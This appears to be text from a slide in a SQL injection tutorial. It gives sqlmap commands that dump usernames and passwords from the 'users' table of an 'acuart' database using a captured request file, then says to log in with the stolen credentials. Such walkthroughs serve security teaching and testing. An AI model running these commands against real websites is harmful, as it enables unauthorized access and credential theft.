

#
Use the command “sqlmap -r log.req  -D acuart -T users -C uname –dump
Here, we can access the username information.
Use the command “sqlmap -r log.req  -D acuart -T users -C pass --dump
Here, we can access the password information
Now use the gained credentials to login to website and access the user information